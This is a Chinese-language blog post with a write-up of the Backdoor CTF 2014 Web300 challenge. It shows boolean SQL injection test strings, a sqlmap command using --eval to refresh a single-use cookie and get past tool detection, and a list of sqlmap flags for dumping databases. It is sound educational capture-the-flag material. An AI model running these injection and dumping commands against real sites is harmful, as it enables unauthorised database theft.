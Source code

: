 ```yaml
---
layout: post
title: "Backdoor CTF 2014 Web300 write-up"
date: 2014-03-23 13:47:44 +0800
comments: true
categories: [ctf, backdoor, web]
---
```


這次CTF不難  早上11:00開始玩到晚上12:00時已經差三題全解,
後來 Orange 出手成績直接爆表

{% img /images/writeup/backdoor2014_scoreboard.PNG %}

有趣的是主辦單位在規則上寫說:

>The competition requires you to find flags to gain points. Some flags can be gained by completing tasks, others are hidden in different places.

這不是讓大家去打網站嗎OTZ....

當時整個網頁都翻過之後才看到IRC上說hidden flag總共四把
*其實我很想寫第五把hidden flag的write up,但是好像要先問過人家願不願意被公開(flee*


總之在一般的題目裡,值得寫writeup的只有web300
<!-- more -->

直接看題目

>
H4x0r is making a new website and has decided to give you beta access! Head over here to register. 

網頁連進去後有register, status, login三個頁面

{% img /images/writeup/backdoor2014_w300_register.PNG %}

{% img /images/writeup/backdoor2014_w300_status.PNG %}


其中有問題的是 status.php

輸入存在的使用者會

{% img /images/writeup/backdoor2014_w300_status_valid.PNG %}

不存在時

{% img /images/writeup/backdoor2014_w300_invalid.PNG %}

這個頁面存在 boolean-based sql injection  簡單用一對一錯的sql injection試一下就知道

```sql
' or 1='1 
' and 2='1
```

知道是boolean-based的sql injection 直接拿sql map出來跑

這邊一定要提一下Atdog前面解w100時(也是bool sql injection)靠北了一句話

>我還是第一次看到ctf的題目 sqlmap可以直接爆的

不過這題是三百分,有擋工具 如果使用工具的話會被偵測出來

{% img /images/writeup/backdoor2014_w300_status_block.PNG %}

在這邊就做了一些猜測,  是檢查 user-agent? IP bind cookie? frequency rate? 

最後發現status頁面會 set cookie,  post過去的頁面會delete cookie.

cookie只能用一次,且鎖php session

{% img /images/writeup/backdoor2014_w300_status_setcookie.PNG %}


這時就會發現SQLmap真的很強大, 可以自訂每次request 前執行的動作 修改每次的cookie/parameter

{% img /images/writeup/backdoor2014_sqlmap_eval_usage.PNG %}

而eval修改cookie的功能是去年加上去的

{% img /images/writeup/backdoor2014_sqlmap_not_suppot_cookie.PNG %}

{% img /images/writeup/backdoor2014_sqlmap_eval_cookies.PNG %}


最後就是用sqlmap eval 去讀status.php取得cookie  就可以爆db了

```python
import requests;
web_300_token=requests.get('http://backdoor.cognizance.org.in/problems/web300/status.php',headers={'User-Agent': 'SQLI'},cookies=dict(PHPSESSID='s60g4fnru4scvr8agl7rvnaji4')).cookies['web_300_token']
```

值得注意的是sqlmap跟status要用同一組php session key 不然還是會錯.

Payload
```console
sqlmap -u http://backdoor.cognizance.org.in/problems/web300/check.php \
           --data="username=a" --string="This user has been validated"\
           --cookie="web_300_token=25b71a45869d38c2a509116149245865;  \
           PHPSESSID=s60g4fnru4scvr8agl7rvnaji4" \
           --user-agent="SQLI" \
           --referer="http://backdoor.cognizance.org.in/problems/web300/status.php" \
           --eval="import requests;\
                   web_300_token=requests.get('http://backdoor.cognizance.org.in/problems/web300/status.php',\
                   headers={'User-Agent': 'SQLI'},\
                   cookies=dict(PHPSESSID='s60g4fnru4scvr8agl7rvnaji4')).cookies['web_300_token']"
```


相關參數
```console
-u url
--data Post的資料
--string SQL指令執行是true web會回傳的關鍵字
--not-string SQL指令執行是false web會回傳的關鍵字
--cookie 指定cookie
--user-agent 指定user agent
--referer 指定ref page
--eval 每次request前須執行的指令
```
撈資料
```console
--users 撈db帳號
--databases 撈db
--tables 撈table , 可用-D 指定database
--columns 撈欄位 , 可用-T 指定table
--dump 撈資料, 要用-C 指定欄位 -T 指定table 
--dump-all 撈所有資料 再bool-based底下會很慢
--threads 指定同時run幾隻 加快速度
```









